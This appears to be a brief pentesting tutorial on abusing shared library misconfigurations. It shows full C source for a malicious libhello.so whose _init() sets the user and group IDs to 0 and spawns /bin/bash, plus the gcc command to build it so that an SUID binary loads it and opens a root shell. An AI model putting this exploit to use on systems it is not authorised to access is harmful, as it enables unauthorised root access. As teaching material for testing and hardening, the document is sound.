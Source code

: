 # Shared Library Misconfigurations

# Exploitation
We are going to suppose that there's an **SUID binary** called **/usr/bin/welcome**.           
However, the user is unable to run it as the binary cannot find a library file *(let's call it **libhello.so**)* which
should be in `/dev/shm`.                
Since, this directory is in control of the current user, we'll move there and create a `.c` file.
```c
// libhello.c
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```
This code will spawn an interactive shell upon running it.              
Now we need to compile it as a library file and save it to `/dev/shm`
```bash
gcc -shared libhello.c -o libhello.so -fPIC -nostartfiles
```
Upon running `/usr/bin/welcome`, it will spawn an elevated shell.


# References
- [https://tbhaxor.com/exploiting-shared-library-misconfigurations/](https://tbhaxor.com/exploiting-shared-library-misconfigurations/)